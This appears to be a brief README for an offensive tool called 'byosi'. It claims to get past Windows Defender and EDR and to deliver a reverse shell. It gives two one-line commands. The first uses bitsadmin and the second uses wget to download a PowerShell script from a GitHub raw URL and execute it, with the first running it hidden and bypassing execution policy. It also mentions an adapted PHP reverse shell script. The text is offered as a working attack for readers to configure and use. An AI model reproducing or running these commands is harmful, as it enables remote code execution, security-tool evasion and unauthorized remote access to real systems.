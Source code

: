 Tested with defender and EDR.

I believe the first worked with defender the second worked on EDR (I won't state the solution).

* Method 1
 bitsadmin /transfer myDownloadJob /download /priority high https://raw.githubusercontent.com/fuzzlove/byosi/refs/heads/main/byosi.ps1 %temp%\myscript.ps1 & powershell -exec bypass -nop -w hidden -file %temp%\myscript.ps1

* Method 2
wget https://raw.githubusercontent.com/fuzzlove/byosi/refs/heads/main/byosi.ps1 -o byosipoc.ps1;./byosipoc.ps1

- The powershell script just needs to be modified with your settings.
- The php script has been modified and completely updated from pentestmonkeys good ole' script and just needs to be updated with settings.

If properly implemented this will give you a reverse shell on a system with EDR.

Best of luck!
